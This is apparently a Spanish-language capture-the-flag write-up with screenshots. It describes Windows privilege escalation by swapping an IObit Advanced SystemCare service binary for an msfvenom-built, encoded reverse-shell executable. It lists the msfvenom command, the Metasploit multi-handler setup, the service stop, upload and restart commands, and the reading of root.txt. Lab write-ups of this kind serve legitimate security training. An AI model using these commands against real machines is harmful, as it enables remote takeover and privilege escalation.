 - msfvenom -p windows/shell_reverse_tcp LHOST=10.10.154.134 LPORT=1337 -e x86/shikata_ga_nai -f exe -o ASCService.exe
![image](https://user-images.githubusercontent.com/44788583/149713649-4067569a-e144-4746-b4aa-6b0b98a2aec1.png)
OJO QUE SE PUSO EN EL PUERTO 137 y que el LHOST es la ip de mi máquina 10.10.154.134 y el nombre del servicio es el vulnerable ASCService.exe

En la otra terminal, donde tengo la background session y el exploit de multi handler:
- set LHOSTS 10.10.154.134 (mi ip)
- set LPORT 1337 (el que definí en msfvenom)
- exploit -j
![image](https://user-images.githubusercontent.com/44788583/149714400-2405f1f6-651c-46bf-b526-1f370e690d0e.png)
- sessions -i 1 (para interactuar con la sesión)

El path en el que está nuestro ejecutable vulnerable es: C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
- cd C:\Program Files (x86)\IObit\Advanced SystemCare\
  no jaló :(
- cd /     para irnos al mero inicio
- cd Program\ Files\ (x86)
- cd IObit
- cd Advanced\ SystemCare
 ![image](https://user-images.githubusercontent.com/44788583/149715885-51ff0f88-a174-40a6-8527-17bb606ab06f.png)

--------
 
### Deteniendo el servicio vulnerable
- shell (dentro de la carpeta de Advanced SystemCare)
- sc stop AdvancedSystemCareService9
![image](https://user-images.githubusercontent.com/44788583/149716353-e3d6afb6-9756-424f-8346-fac7cf0d8f1e.png)
  
-----
  
### Subiendo ASCService.exe de nuestra máquina
![image](https://user-images.githubusercontent.com/44788583/149716519-f61bd621-3fc5-46d3-a2ac-22ccd2921483.png)
- upload /root/ASCService.exe
![image](https://user-images.githubusercontent.com/44788583/149716765-17d507c9-1035-4fca-9461-59c83493b0e2.png)
- shell
- sc start AdvancedSystemCareService9
![image](https://user-images.githubusercontent.com/44788583/149717301-88d6f49b-435f-4ce7-b7b8-a028453dc79b.png)
Se pone como background la sesión 1
- background
- sessions -i 2 (para interactuar con la sesion 2)
![image](https://user-images.githubusercontent.com/44788583/149717570-cbbe765e-649a-4061-a130-b0e9bc353ca1.png)
En la nueva sesión: 
- cd /        para irnos hasta el folder principal
- cd /Users/Administrator/Desktop
- cat root.txt 
  no jala ese comando
- more root.txt
 ![image](https://user-images.githubusercontent.com/44788583/149718036-ec576488-98b8-40a7-bd1c-b18e1001c791.png)

### El método de no metasploit no lo realicé


